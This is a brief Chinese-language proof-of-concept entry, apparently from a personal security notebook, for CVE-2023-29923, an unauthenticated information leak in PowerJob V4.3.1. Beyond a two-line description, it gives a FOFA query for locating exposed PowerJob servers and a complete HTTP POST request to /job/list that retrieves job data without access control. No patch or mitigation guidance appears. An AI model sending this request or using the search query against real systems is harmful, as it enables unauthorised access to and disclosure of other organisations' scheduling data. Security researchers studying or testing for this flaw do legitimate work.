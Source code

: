 # PowerJob信息泄漏漏洞（CVE-2023-29923）

# 一、漏洞简介
PowerJob是一个开源分布式计算和作业调度框架，它允许开发人员在自己的应用程序中轻松调度任务。PowerJob V4.3.1版本存在安全漏洞，该漏洞源于存在不正确访问控制。

# 二、影响版本
+ PowerJob V4.3.1

# 三、资产测绘
+ fofa`title="PowerJob"`
+ 特征

![1707132393105-46d6ce0f-8016-4a1d-a308-ac83ac3d0f6d.png](./img/s1SqmcSJTTrhY2SJ/1707132393105-46d6ce0f-8016-4a1d-a308-ac83ac3d0f6d-433908.png)

# 四、漏洞复现
```plain
POST /job/list HTTP/1.1
Host: 
Connection: close
Content-Length: 69
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36


{
        "appId":1,
        "index":0,
        "pageSize":10
}
```

![1707132481225-23a54101-d385-47d4-b739-42c3ec090ad9.png](./img/s1SqmcSJTTrhY2SJ/1707132481225-23a54101-d385-47d4-b739-42c3ec090ad9-885295.png)



> 更新: 2024-02-29 23:55:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mcit5dukx60xrcrx>